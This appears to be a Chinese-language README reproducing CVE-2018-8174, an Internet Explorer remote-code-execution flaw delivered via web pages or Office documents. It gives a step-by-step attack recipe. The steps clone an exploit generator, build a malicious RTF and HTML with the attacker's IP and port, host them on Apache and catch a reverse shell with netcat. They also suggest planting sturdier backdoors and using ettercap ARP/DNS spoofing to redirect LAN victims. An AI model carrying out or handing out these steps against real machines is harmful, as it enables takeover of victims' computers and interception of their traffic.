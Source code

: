 # CVE-2018-8174

## 漏洞简单说明

利用浏览器0day漏洞的新型Office文档攻击。该漏洞影响最新版本的IE浏览器及使用了IE内核的应用程序。用户在`浏览网页或打开Office文档`时都可能中招，最终被黑客植入后门木马完全控制电脑。

## 复现

下载python脚本保存到本地  
`git clone https://github.com/Yt1g3r/CVE-2018-8174_EXP.git`

开启apache服务  
`service apache2 start`

运行CVE-2018-8174.py生成攻击TRF（exp.rtf）和攻击HTML（exploit.html）  
`python CVE-2018-8174.py -u http://192.168.3.21/exploit.html -o exp.rtf -i 192.168.3.21 -p 4444`

将攻击文件移至web服务目录下  
`cp exp* /var/www/html`

攻击机运行nc监听  
`nc -lvvp 4444`

被攻击者访问攻击web页面即可反弹shell。  
可将 exploit.html 改名为 index.html 那样直接访问IP就能获得 shell ，而不用添加访问目录。  
之后可以上传一些比较健壮的后门。  
据说用word打开 rtf 文件也能反弹回 shell 。但是我没环境测试，且都得是32位的系统（ IE 和 Word ）。

内网 arp + DNS 欺骗  
`ettercap -T -i eth0 -q -P dns_spoof /// /192.168.3.1//`  
前面的是被攻击主机，后面的是网关，不写就全都劫持。  
实际测试的时候不是特别好使，win7虚拟机测试成功，其它的不是很成功

清空本地 arp 缓存
`arp -d`

查看本地 DNS 缓存  
`ipconfig /displaydns`

清楚本地 DNS 缓存信息。实际测试，不一定能全都删除干净，有遗留  
`ipconfig /flushdns`